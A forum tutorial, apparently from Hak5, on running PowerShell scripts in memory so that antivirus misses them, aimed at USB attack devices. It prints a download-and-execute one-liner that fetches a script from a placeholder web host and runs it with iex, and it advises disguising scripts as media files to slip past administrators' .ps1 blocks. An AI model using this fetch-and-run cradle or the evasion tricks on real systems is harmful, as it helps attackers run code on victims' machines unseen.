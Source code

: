 ## PowerShell Tutorial
###### Author: Dave-ee Jones
###### Subject: Running PowerShell scripts in memory
###### [Original post](https://forums.hak5.org/topic/41729-running-powershell-in-memory/)

### DISCLAIMER:
I don't claim to know everything in this area, I am just giving you a general idea and some resources.

So I've seen lots of PowerShell-based scripts (for the Ducky and BB especially), and there are a few people talking about running PS scripts in memory so that most free anti-virus software can't detect the script. Since most newbies don't know how to do this (and even some elderbies), I figured I would give you a few links and a brief explanation myself.

So, without further ado, let's get started!

#### First, let's consider; what does loading a script into memory mean?
Well, we all know how variables and functions work, right?
'''sh
var1 = "hello there!"
'''
When this bit of code executes it has just told the computer 'Okay, make sure you remember this, now. Var1 equals "hello there!"' and the computer has gone 'K, boss!' and puts it into it's memory, just like we would with a bit of information we've been given. Functions are the same. In Lua (using Lua as an example because it's the language I'm most familiar with) I could do something like this:
'''sh
local var = "hello world!"

local func = function()
	print(var)
end
'''
This has put the function 'func' and variable 'var' into memory. 'Func' is executable, so when we call the function like so it will do like so:
'''sh
func()

OUTPUT:
hello world!
'''
So we've just executed a function that was first placed in memory, but SOURCED from the script (text file) itself. We can do the same with scripts. We can load a script into a variable, allowing us to call it from memory.

#### Okay, that's great, but how do I load a *script* into a variable - and how am I supposed to run it?

First off, we have to remember to store the script outside of the machine we're running the script on. THEN we need to use an amazing PowerShell module called 'Invoke-Expression', which allows us to execute strings. You can see where this is going, right?

If we're getting the script from a website or a webserver, we can do something like this:
'''sh
$url = ‘https://www.justaprank.com/scripts/script1.ps1′
iex ((New ObjectNet.WebClient).DownloadString($url))
'''
 This will download the whole contents of the 'script1.ps1' file, allowing us to execute it with 'iex' which is the shorthand alias of 'Invoke-Expression', NOT Internet Explorer.

If we're getting the script from a file hosted on an SMB server, USB (Ducky/BB) or outside source, we can do something like this:
'''sh
iex (Get-Content pathtoscript\script1.txt)
'''
The beauty about both of these ways is we don't have to have a specific '.ps1' extension on it, allowing us to load all kinds of scripts that can be disguised as pictures, video, text files etc.

**IN FACT** it's better NOT to have a '.ps1' extension because there are people (especially Domain Administrators) who block '.ps1' scripts from being read/executed, so having a different extension helps greatly, even if loading from an outside source (web server, USB).

So I hope this has helped some of you understand what we mean by running a script in memory, and how powerful it can be! Keep in mind that there are still lots of Anti-virus software that will detect stuff like this, but, unfortunately, most of it is paid software (money-making losers who think money > security..).

Also keep in mind that there are plenty of other ways of storing scripts in memory (one being using C#), but these are (arguably) the easiest.

#### And now, resources!

https://securingtomorrow.mcafee.com/business/fileless-malware-execution-with-powershell-is-easier-than-you-may-realize/
https://github.com/PowerShellMafia/PowerSploit/tree/master/CodeExecution
https://clymb3r.wordpress.com/
https://www.defcon.org/images/defcon-21/dc-21-presentations/Bialek/DEFCON-21-Bialek-PowerPwning-Post-Exploiting-by-Overpowering-Powershell.pdf 
